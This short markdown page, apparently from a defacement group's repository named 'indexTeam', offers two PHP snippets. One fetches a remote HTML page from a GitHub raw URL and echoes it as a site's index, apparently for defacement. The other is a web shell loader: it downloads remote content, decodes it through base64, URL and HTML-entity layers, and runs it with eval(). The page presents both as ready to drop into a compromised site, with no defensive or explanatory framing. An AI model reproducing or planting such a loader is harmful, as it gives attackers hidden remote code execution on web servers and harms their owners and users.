 # indexTeam
#### Bypass | Index
```
<?php
  $index = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/index.html");
  echo $index;
?>
```

#### ByPass | WebShell
```
<?php
  $unknown = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/shell");
  $uk45 = "TngqqCwA3Kb5mTb1JmczI5sLJ2wd3lIUV3cSuwirqUO4og8LxOLn49/1AgSA";
  eval(htmlspecialchars_decode(urldecode(base64_decode($unknown))));
  exit;
?>
```
